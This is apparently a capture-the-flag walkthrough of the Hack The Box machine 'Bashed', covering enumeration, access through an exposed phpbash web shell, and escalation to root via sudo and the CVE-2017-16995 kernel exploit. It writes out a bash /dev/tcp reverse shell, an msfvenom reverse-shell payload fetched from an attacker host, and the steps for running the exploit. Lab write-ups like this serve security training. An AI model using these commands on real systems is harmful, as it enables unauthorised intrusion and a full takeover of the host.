




# Enumeration

## Run Nmap Scan

```bash
nmap 10.10.10.68 -p- -sC -sV --min-rate 6000 -Pn -n -oA tcpDetailed

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 13:58 BST
Nmap scan report for 10.10.10.68
Host is up (0.83s latency).
Not shown: 65047 filtered tcp ports (no-response), 487 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.19 seconds
"
```

## View Website





Looks like the website contains phpbash. Let's run gobuster to find it

## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirb/common.txt 

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/09/11 14:06:43 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]                                
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/server-status        (Status: 403) [Size: 299]                                 
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
                                                                                 
===============================================================
2023/09/11 14:07:59 Finished
===============================================================
"
```

`/dev` route seems interesting!



We found the `phpbash.php` ! 



# Exploitation

## Getting a Reverse Shell

### Using a phpbash to get a Reverse Shell (Failed)

I have used reverse shell commands to get the reverse shell, but it wouldn't let me.

```bash
/bin/bash -i >& /dev/tcp/<Attacker IP>/4444 0>&1
```

## Creating a Reverse Shell and Uploading the Exploit

```bash
msfvenom -p linux/x86/shell_reverse_tcp -f elf LHOST=<Attacker IP> LPORT=4444 -o reverse.elf

"
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: reverse.elf
"
```

```python
python -m http.server 8000
```

## Checking a Writable permission inside the folder

```bash
find / -type d -writable 2>/dev/null

"
find: '/run/sudo': Permission denied
find: '/run/log/journal/37f474e246e601006b77c9705a259ee9': Permission denied
find: '/run/systemd/inaccessible': Permission denied
/run/lock
/run/lock/apache2
find: '/etc/ssl/private': Permission denied
/tmp
/tmp/.Test-unix
/tmp/.font-unix
/tmp/.XIM-unix
/tmp/VMwareDnD
/tmp/.ICE-unix
find: '/tmp/vmware-root': Permission denied
/tmp/.X11-unix
find: '/tmp/systemd-private-0ec0158360984555b5979376faad8ad0-systemd-timesyncd.service-H4DmMB': Permission denied
/dev/mqueue
/dev/shm
"
```

So I moved to `/tmp` folder and decided to download the reverse shell

```bash
cd /tmp
```

## Downloading a Reverse Shell

```bash
wget http://<Attacker IP>:8000/reverse.elf

"
--2023-09-11 06:32:56-- http://10.10.14.10:8000/reverse.elf
Connecting to 10.10.14.10:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 152 [application/octet-stream]
Saving to: 'reverse.elf'

0K 100% 21.2M=0s

2023-09-11 06:32:56 (21.2 MB/s) - 'reverse.elf' saved [152/152]
```

## Give Executable Permission and Execute the Reverse Shell

```bash
nc -lvnp 4444

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.68.
Ncat: Connection from 10.10.10.68:43184.
whoami
www-data
"
```

```bash
chmod 700 reverse.elf
```

```bash
./reverse.elf
```

### Spawning a TTY Shell

```bash
python -c "import pty; pty.spawn('/bin/bash')"

"
www-data@bashed:/tmp$
"
```

# Privilege Escalation

## Find what permissions we have

```bash
sudo -l

"
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
"
```

## Escalate privilege to scriptmanager

```bash
sudo -u scriptmanager /bin/bash

"
scriptmanager@bashed:/tmp$
"
```

## Enumerating Victim OS Information to look for Vulnerability

```bash
uname -a

"
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
"
```

```bash
cat /etc/issue

"
Ubuntu 16.04.2 LTS \n \l
"
```

Ubuntu 16.04 with linux 4.4.0-62 has kernal vulnerability that we can exploit

## Making the Exploit

Download the [Exploit (CVE-2017-16995)](https://www.exploit-db.com/exploits/45010) and compile it locally using the following command

```bash
gcc exploit.c -o exploit -lpthread
```

## Uploading the Exploit to the Victim

```bash
python -m http.server 8000
```

## Download the Exploit

```bash
wget http://<Attacker IP>:8000/exploit
```

## Give Permission and Execute Exploit

Give Execution Permission

```bash
chmod 700 exploit
```

Execute Exploit in the Victim System

```bash
./exploit

"
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800351cba00
[*] Leaking sock struct from ffff8800376b1c00
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88003a9329c0
[*] UID from cred structure: 1001, matches the current: 1001
[*] hammering cred structure at ffff88003a9329c0
[*] credentials patched, launching shell...
# whoami
whoami
root
"
```